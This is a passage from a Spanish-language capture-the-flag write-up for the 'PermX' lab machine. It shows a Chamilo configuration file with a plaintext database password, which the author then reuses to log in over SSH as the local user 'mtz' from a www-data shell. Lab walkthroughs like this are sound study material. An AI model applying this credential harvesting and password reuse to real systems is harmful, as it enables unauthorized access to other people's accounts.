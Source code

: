 ```sh
```

```php
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```
<p style="text-align: justify;">

En este caso, podemos encontrar una contraseña. Esta contraseña, en primeras instancias, es para iniciar sesión en la base de datos, pero podemos probar si esta contraseña funciona para conectarnos al usuario encontrado. Este usuario lo encontramos al acceder a la carpeta /home/. Ahí podemos ver ese usuario, así que procederemos a intentar iniciar sesión por SSH.
</p>

```sh
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload$ cd /home
cd /home
www-data@permx:/home$ ls
ls
mtz
www-data@permx:/home$ 
```
Para iniciar una conexion ssh procedemos ejecuatar el siguiente comando:
```sh
ssh mtz@10.10.11.23
```
una vez iniciado nos pedira la contrasela la cual insertaremos la que encontramos y soprendentemente es la misma contraseña 


<p align="center">